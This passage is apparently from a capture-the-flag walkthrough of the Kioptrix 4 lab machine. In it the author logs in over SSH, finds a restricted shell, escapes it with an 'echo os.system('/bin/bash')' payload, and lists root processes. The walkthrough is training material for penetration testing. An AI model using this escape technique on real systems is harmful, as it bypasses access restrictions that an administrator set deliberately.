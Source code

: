Huh... well that is odd! It seems we are limited in the commands we can use. Let's SSH back in and use the `?` option to see more information.

```console
root@kali:~# ssh john@192.168.1.14
john@192.168.1.14's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ lpath
Allowed:
 /home/john
```

So we are limited in the commands we can use, thus it seems like we are in a [Restricted Shell](https://en.wikipedia.org/wiki/Restricted_shell). 

Well we are hackers after all... let's break out of this restriction shall we?

SANS had a very good post on [Escaping Restricted Shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells) that I suggest you read up on!

```console
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ 
```

Bingo! Okay, now that we have more access, let's run [ps](http://linuxcommand.org/man_pages/ps1.html)and see what running processes we have.

```console
john@Kioptrix4:~$ ps -ef | grep root
root         1     0  0 21:27 ?        00:00:01 /sbin/init
root         2     0  0 21:27 ?        00:00:00 [kthreadd]
root         3     2  0 21:27 ?        00:00:00 [migration/0]
root         4     2  0 21:27 ?        00:00:00 [ksoftirqd/0]
root         5     2  0 21:27 ?        00:00:00 [watchdog/0]
root         6     2  0 21:27 ?        00:00:00 [events/0]
root         7     2  0 21:27 ?        00:00:00 [khelper]
root        41     2  0 21:27 ?        00:00:00 [kblockd/0]
root        44     2  0 21:27 ?        00:00:00 [kacpid]
root        45     2  0 21:27 ?        00:00:00 [kacpi_notify]
root       173     2  0 21:27 ?        00:00:00 [kseriod]
root       212     2  0 21:27 ?        00:00:00 [pdflush]
root       213     2  0 21:27 ?        00:00:00 [pdflush]
root       214     2  0 21:27 ?        00:00:00 [kswapd0]
root       256     2  0 21:27 ?        00:00:00 [aio/0]
root      1476     2  0 21:27 ?        00:00:00 [ata/0]
root      1479     2  0 21:27 ?        00:00:00 [ata_aux]
root      1487     2  0 21:27 ?        00:00:00 [scsi_eh_0]
root      1492     2  0 21:27 ?        00:00:00 [scsi_eh_1]
root      1505     2  0 21:27 ?        00:00:00 [ksuspend_usbd]
root      1510     2  0 21:27 ?        00:00:00 [khubd]
root      2369     2  0 21:27 ?        00:00:00 [scsi_eh_2]
root      2608     2  0 21:27 ?        00:00:00 [kjournald]
root      2776     1  0 21:27 ?        00:00:00 /sbin/udevd --daemon
root      3088     2  0 21:27 ?        00:00:00 [kgameportd]
root      3222     2  0 21:27 ?        00:00:00 [kpsmoused]
root      4513     1  0 21:27 tty4     00:00:00 /sbin/getty 38400 tty4
root      4514     1  0 21:27 tty5     00:00:00 /sbin/getty 38400 tty5
root      4518     1  0 21:27 tty2     00:00:00 /sbin/getty 38400 tty2
root      4519     1  0 21:27 tty3     00:00:00 /sbin/getty 38400 tty3
root      4525     1  0 21:27 tty6     00:00:00 /sbin/getty 38400 tty6
root      4581     1  0 21:27 ?        00:00:00 /bin/dd bs 1 if /proc/kmsg of /v
root      4602     1  0 21:27 ?        00:00:00 /usr/sbin/sshd
```
